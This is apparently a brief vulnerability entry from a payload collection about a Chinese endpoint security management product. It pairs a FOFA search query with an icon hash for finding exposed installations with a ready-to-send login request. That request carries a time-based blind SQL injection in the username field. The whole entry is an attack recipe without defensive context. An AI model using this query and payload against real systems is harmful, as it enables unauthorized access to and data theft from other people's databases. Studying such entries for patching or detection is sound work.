 FOFA:

```markdown
"辰信景云终端安全管理系统" && icon_hash="-429260979"
```

payload

```markdown
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

